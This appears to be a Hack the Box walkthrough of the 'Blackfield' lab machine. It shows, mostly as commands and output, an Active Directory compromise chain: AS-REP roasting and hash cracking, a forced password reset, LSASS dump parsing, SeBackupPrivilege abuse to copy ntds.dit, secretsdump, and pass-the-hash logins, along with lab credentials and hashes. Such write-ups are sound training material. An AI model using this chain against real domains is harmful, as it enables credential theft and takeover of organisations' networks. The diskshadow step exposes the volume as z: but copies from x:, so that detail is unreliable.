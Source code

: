 ```yaml
---
layout: post
title: Hack the Box - Blackfield
author: Kolja
categories: [HtB]
tags: [ad]
---
```


## Enumeration
We can enumerate smb with the guest user:
```
smbmap -H 10.10.10.192 -u "guest" -p ""
[+] IP: 10.10.10.192:445        Name: 10.10.10.192                                      
        Disk                                                    Permissions Comment
        ----                                                    ----------- -------
        ADMIN$                                                  NO ACCESS   Remote Admin
        C$                                                      NO ACCESS   Default share
        forensic                                                NO ACCESS   Forensic / Audit share.
        IPC$                                                    READ ONLY   Remote IPC
        NETLOGON                                                NO ACCESS   Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  NO ACCESS   Logon server share 
       
```

## Foothold
From the profiles share we get directories for the existing users. We can use this to create a user list and then try to do AS-REP Roasting:
```
impacket-GetNPUsers  -dc-ip 10.10.10.192 blackfield.local/ -usersfile  userlist.txt -format john -outputfile hashes -no-pass
```
We get one hash and can try to crack it using john:
```
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$support@BLACKFIELD.LOCAL)     
1g 0:00:00:10 DONE (2022-05-24 07:05) 0.09165g/s 1313Kp/s 1313Kc/s 1313KC/s #1WIF3Y..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

So we have credentials now: `support:#00^BlackKnight`

## Privilege Escalation
Now we have credentials we can enumerate the active directory:
```
bloodhound-python -c All -u support@blackfield.local -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -dc DC01.blackfield.local
```
Our user can change the password of another user:
![[Pasted image 20220524143452.png]]


This can be done from Linux using `rpcclient`:
```
rpcclient -U blackfield/support 10.10.10.192
Password for [BLACKFIELD\support]:
rpcclient $> setuserinfo2 AUDIT2020 23 Passwort123!
rpcclient $> 
```

This user had no interesting bloodhound edges, but it had read access to the forensic share:
```
smbmap -H 10.10.10.192 -u "AUDIT2020" -p 'Passwort123!'   
[+] IP: 10.10.10.192:445        Name: blackfield.local                                  
        Disk                                                    Permissions Comment
        ----                                                    ----------- -------
        ADMIN$                                                  NO ACCESS   Remote Admin
        C$                                                      NO ACCESS   Default share
        forensic                                                READ ONLY   Forensic / Audit share.
        IPC$                                                    READ ONLY   Remote IPC
        NETLOGON                                                READ ONLY   Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY   Logon server share 
```

There is a lsass.zip file on the share, which contains a lsass.DMP file.
```
pypykatz lsa minidump lsass.DMP 
```

There is a NTLM hash for the `svc_backup` user in the dump: `9658d1d1dcd9250115e2205d9f48400d`

We can use `evil-winrm` to log in with this user:
```
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

Here we execute `PrivescCheck.ps1` and see that we have the `SeBackupPrivilege`. We can exploit this as described [here](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

First, we create a file `raj.dsh`:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```
After using `unix2dos` on the file we upload this file to the host and then use it:
```
diskshadow /s raj.dsh
robocopy /b x:\windows\ntds . ntds.dit
```
We also need the `system` registry value:
```
reg save hklm\system c:\Temp\system
```

We can then use secretsdump to extract the hashes:
```
impacket-secretsdump -ntds ntds.dit -system system local
```

Now we can log in using the admin account:
```
evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```
